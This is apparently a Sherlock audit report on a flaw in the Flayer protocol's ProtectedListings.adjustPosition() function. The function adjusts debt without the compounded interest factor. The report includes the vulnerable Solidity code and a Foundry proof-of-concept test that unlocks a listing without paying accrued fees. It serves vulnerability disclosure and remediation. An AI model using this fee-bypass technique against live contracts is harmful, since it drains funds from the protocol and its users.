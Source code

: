 # User can unlock protected listing without paying any fee.
## Summary
`ProtectedListings.adjustPosition()` function adjust `listing.tokenTaken` without considering compounded factor. Exploiting this vulnerability, user can unlock protected listing without paying any fee.

## Vulnerability Detail
`ProtectedListings.adjustPosition()` function is following.
```solidity
    function adjustPosition(address _collection, uint _tokenId, int _amount) public lockerNotPaused {
        // Ensure we don't have a zero value amount
        if (_amount == 0) revert NoPositionAdjustment();

        // Load our protected listing
        ProtectedListing memory protectedListing = _protectedListings[_collection][_tokenId];

        // Make sure caller is owner
        if (protectedListing.owner != msg.sender) revert CallerIsNotOwner(protectedListing.owner);

        // Get the current debt of the position
        int debt = getProtectedListingHealth(_collection, _tokenId);

        // Calculate the absolute value of our amount
        uint absAmount = uint(_amount < 0 ? -_amount : _amount);

        // cache
        ICollectionToken collectionToken = locker.collectionToken(_collection);

        // Check if we are decreasing debt
        if (_amount < 0) {
            // The user should not be fully repaying the debt in this way. For this scenario,
            // the owner would instead use the `unlockProtectedListing` function.
            if (debt + int(absAmount) >= int(MAX_PROTECTED_TOKEN_AMOUNT)) revert IncorrectFunctionUse();

            // Take tokens from the caller
            collectionToken.transferFrom(
                msg.sender,
                address(this),
                absAmount * 10 ** collectionToken.denomination()
            );

            // Update the struct to reflect the new tokenTaken, protecting from overflow
399:        _protectedListings[_collection][_tokenId].tokenTaken -= uint96(absAmount);
        }
        // Otherwise, the user is increasing their debt to take more token
        else {
            // Ensure that the user is not claiming more than the remaining collateral
            if (_amount > debt) revert InsufficientCollateral();

            // Release the token to the caller
            collectionToken.transfer(
                msg.sender,
                absAmount * 10 ** collectionToken.denomination()
            );

            // Update the struct to reflect the new tokenTaken, protecting from overflow
413:        _protectedListings[_collection][_tokenId].tokenTaken += uint96(absAmount);
        }

        emit ListingDebtAdjusted(_collection, _tokenId, _amount);
    }
```
As can be seen in `L399` and `L413`, `_protectedListings[_collection][_tokenId].tokenTaken` is updated without considering compounded factor. Exploiting this vulnerability, user can unlock protected listing without paying any fee.

PoC:
Add the following test code into `ProtectedListings.t.sol`.
```solidity
    function test_adjustPositionError() public {
        erc721a.mint(address(this), 0);
        
        erc721a.setApprovalForAll(address(protectedListings), true);

        uint[] memory _tokenIds = new uint[](2); _tokenIds[0] = 0; _tokenIds[1] = 1;

        IProtectedListings.CreateListing[] memory _listings = new IProtectedListings.CreateListing[](1);
        _listings[0] = IProtectedListings.CreateListing({
            collection: address(erc721a),
            tokenIds: _tokenIdToArray(0),
            listing: IProtectedListings.ProtectedListing({
                owner: payable(address(this)),
                tokenTaken: 0.4 ether,
                checkpoint: 0
            })
        });
        protectedListings.createListings(_listings);

        vm.warp(block.timestamp + 7 days);

        // unlock protected listing for tokenId = 0
        assertEq(protectedListings.unlockPrice(address(erc721a), 0), 402055890410801920);
        locker.collectionToken(address(erc721a)).approve(address(protectedListings), 0.4 ether);
        protectedListings.adjustPosition(address(erc721a), 0, -0.4 ether);
        assertEq(protectedListings.unlockPrice(address(erc721a), 0), 0);
        protectedListings.unlockProtectedListing(address(erc721a), 0, true);
    }
```
In the above test code, we can see that `unlockPrice(address(erc721a), 0)` is `402055890410801920`, but after calling `adjustPosition(address(erc721a), 0, -0.4 ether)`, `unlockPrice(address(erc721a), 0)` decreases to `0`. So we unlocked protected listing paying only `0.4 ether` without paying any fee.

## Impact
User can unlock protected listing without paying any fee. It means loss of funds for the protocol.
On the other hand, if user increase `tokenTaken` in `adjustPosition()` function, increasement of fee will be inflated by compounded factor. it means loss of funds for the user.

## Code Snippet
- [ProtectedListings.adjustPosition()](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/ProtectedListings.sol#L366-L417)

## Tool used
Manual Review

## Recommendation
Adjust `tokenTaken` considering compounded factor in `ProtectedListings.adjustPosition()` function. That is, divide `absAmount` by compounded factor before updating `tokenTaken`.